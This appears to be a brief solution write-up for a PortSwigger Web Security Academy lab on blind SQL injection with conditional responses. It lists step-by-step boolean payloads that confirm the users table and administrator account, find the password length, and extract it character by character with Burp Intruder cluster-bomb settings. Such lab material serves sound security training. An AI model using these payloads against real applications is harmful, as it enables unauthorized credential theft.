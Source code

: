 # Blind SQL injection with conditional responses
https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses

Step - 1
---
```
'
```
Content Length Change > Single Quotes

Step - 2
---
```
' AND '1'='1
```

Step - ?
--------
```
' AND (SELECT 'a' FROM users LIMIT 1)='a
```
1. Table Name: users (Just Confirm)

Step - ?
---
```
' AND (SELECT 'a' FROM users WHERE username='administrator')='a
```
1. Column Name: username (Just Confirm)
2. username Value: administrator (Just Confirm)

Step - 3
---
```
' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>20)='a
```
Content Length Change
1. password Length: 20

Step - 4
---
```
' AND (SELECT SUBSTRING(password,§1§,1) FROM users WHERE username='administrator')='§a§
```
1. Attack Type: Cluster bomb
1. Payload Set 1: 1-20
1. Payload Set 2: a-z
